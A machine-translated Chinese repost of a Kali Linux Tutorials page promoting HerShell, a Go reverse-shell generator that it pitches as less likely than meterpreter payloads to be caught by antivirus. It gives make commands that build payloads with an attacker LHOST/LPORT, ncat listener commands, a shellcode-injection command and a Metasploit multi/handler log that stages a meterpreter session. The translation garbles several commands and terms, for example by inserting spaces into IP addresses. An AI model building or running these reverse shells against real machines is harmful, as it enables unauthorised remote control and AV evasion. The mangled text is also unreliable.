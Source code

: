 # HerShell:多平台反向外壳生成器

> 原文：<https://kalilinuxtutorials.com/hershell-multiplatform-reverse-shell-generator/>

[![HerShell : Multiplatform Reverse Shell Generator](img/1b63770820e0179a05a202f699637659.png "HerShell : Multiplatform Reverse Shell Generator")](https://1.bp.blogspot.com/-8r6a4JhySLg/Xi67SQTtfhI/AAAAAAAAEnw/K16coRzuCN8UgWjf9_eHS766PpO5FO84QCLcBGAsYHQ/s1600/New%25281%2529.png)

**Hershell** 是用 [Go](https://golang.org/) 编写的简单 TCP 反向外壳工具。它使用 TLS 来保护通信，并提供证书公钥指纹锁定功能，防止流量拦截。

支持的操作系统有:

*   **窗户**
*   **Linux**
*   **苹果操作系统**
*   **FreeBSD 和衍生品**

**为什么？**

虽然 meterpreter 的有效载荷很大，但它们有时会被 AV 产品发现。这个项目 HerShell 的目标是得到一个简单的反向 Shell，它可以在多个系统上工作。

**如何？**

因为 HerShell 是用 Go 编写的，所以您可以针对所需的架构交叉编译源代码。

**入门&依赖**

因为这是一个 Go 项目，你需要按照官方文档来设置你的 Golang 环境(使用`$GOPATH`环境变量)。

然后，只需运行`**go get github.com/lesnuages/hershell**`来获取项目。

**制造有效载荷**

为了简化，您可以使用提供的 Makefile。您可以设置以下环境变量:

*   `**GOOS**`:目标操作系统
*   **`GOARCH`** :目标架构
*   `**LHOST**`:攻击者的 IP 或域名
*   `**LPORT**`:监听端口

对于`**GOOS**`和 **`GOARCH`** 变量，可以在这里得到允许值[。](https://golang.org/doc/install/source#environment)

然而，`**Makefile**`中提供了一些辅助目标:

*   `**depends**`:生成服务器证书(反向 shell 需要)
*   `**windows32**`:构建一个 windows 32 位可执行文件(PE 32 位)
*   **`windows64`** :构建一个 windows 64 位可执行文件(PE 64 位)
*   **`linux32`** :构建一个 linux 32 位可执行文件(ELF 32 位)
*   **`linux64`** :构建一个 linux 64 位可执行文件(ELF 64 位)
*   **`macos32`** :构建一个 mac os 32 位可执行文件(Mach-O)
*   **`macos64`** :构建 mac os 64 位可执行文件(Mach-O)

对于那些目标，你只需要设置 **`LHOST`** 和 **`LPORT`** 环境变量。

**也可阅读-[如何保护自己免受常见密码攻击](https://kalilinuxtutorials.com/password-attacks/)**

**使用外壳**

一旦执行，您将获得一个远程外壳。这个定制的交互式 shell 将允许您通过 Windows 上的`cmd.exe`或 UNIX 机器上的`/bin/sh`来执行系统命令。

支持以下特殊命令:

*   **`run_shell`** :让你退出一个系统外壳(例如，允许你改变目录)
*   `inject <base64 shellcode>`:在同一个进程内存中注入一个外壳代码(base64 编码)，并执行它
*   `**meterpreter [tcp|http|https] IP:PORT**`:连接 multi/handler 从 metasploit 获取 stage2 reverse tcp、http 或 https meterpreter，并执行内存中的 shellcode(目前仅限 Windows)
*   **`exit`** :优雅地退出

**用途**

首先，您需要生成一个有效的证书:

**$ make depends**
OpenSSL req-subj '/CN = your CN . com/O = your org/C = FR '-new-new key rsa:4096-days 3650-nodes-x509-keyut server . key-out server . PEM
**生成 4096 位 RSA 私钥**
…………………………………………………………………………………………………………………………
**将新私钥写入‘server . key’**【t100

**对于 windows:**

**#预定义 32 位目标**
$ make windows 32 LHOST = 192 . 168 . 0 . 12 LPORT = 1234
**#预定义 64 位目标**
$ make windows 64 LHOST = 192 . 168 . 0 . 12 LPORT = 1234

**对于 Linux:**

**#预定义 32 位目标**
$ make Linux 32 LHOST = 192 . 168 . 0 . 12 LPORT = 1234
**#预定义 64 位目标**
$ make Linux 64 LHOST = 192 . 168 . 0 . 12 LPORT = 1234

**苹果 OS X**

**$ make MAC OS LHOST = 192 . 168 . 0 . 12 LPORT = 1234**

**例题**

**基本用法**

可以使用各种工具来处理传入的连接，例如:

*   socat
*   ncat
*   openssl 服务器模块
*   metasploit 多重处理程序(带有一个`**python/shell_reverse_tcp_ssl**`有效负载)

下面是一个关于`ncat`的例子:

**$ Ncat–SSL–SSL-cert server . PEM–SSL-key server . key-lvp 1234
Ncat:版本 7.60(https://nmap.org/ncat)
Ncat:监听 on :::1234 Ncat:监听 on 0.0.0.0:1234
Ncat:从 172.16.122.105 连接。
Ncat:来自 172.16.122.105 的连接:47814。**
【her shell】>whoami
desktop-3pvv 31a \ lab

**抄表员暂存**

**警告**:这目前只适用于 Windows 平台。

meterpreter staging 目前支持以下有效载荷:

*   **T2`windows/meterpreter/reverse_tcp`**
*   **T2`windows/x64/meterpreter/reverse_tcp`**
*   **T2`windows/meterpreter/reverse_http`**
*   **T2`windows/x64/meterpreter/reverse_http`**
*   **T2`windows/meterpreter/reverse_https`**
*   **T2`windows/x64/meterpreter/reverse_https`**

要使用正确的协议，只需指定想要使用的传输协议(tcp、http、https)

要使用 meterpreter 暂存功能，只需启动您的处理程序:

```
[14:12:45][172.16.122.105][Sessions: 0][Jobs: 0] > use exploit/multi/handler
[14:12:57][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
[14:13:12][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lhost 172.16.122.105
lhost => 172.16.122.105
[14:13:15][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lport 8443
lport => 8443
[14:13:17][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set HandlerSSLCert ./server.pem
HandlerSSLCert => ./server.pem
[14:13:26][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] [2018.01.29-14:13:29] Started HTTPS reverse handler on https://172.16.122.105:8443
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
```

然后，在`**hershell**`中，使用 **`meterpreter`** 命令:

**【赫谢尔】>抄表员 https 172.16.122.105:8443**

新的计量员会议将在`**msfconsole**`中弹出:

```
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
[*] [2018.01.29-14:16:44] https://172.16.122.105:8443 handling request from 172.16.122.105; (UUID: pqzl9t5k) Staging x64 payload (206937 bytes) ...
[*] Meterpreter session 1 opened (172.16.122.105:8443 -> 172.16.122.105:44804) at 2018-01-29 14:16:44 +0100

[14:16:46][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x64/windows  DESKTOP-3PVV31A\lab @ DESKTOP-3PVV31A  172.16.122.105:8443 -> 172.16.122.105:44804 (10.0.2.15)

[14:16:48][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-3PVV31A\lab
```

**信用**:docker file 功能的 [@khast3x](https://github.com/khast3x)

[**Download**](https://github.com/lesnuages/hershell)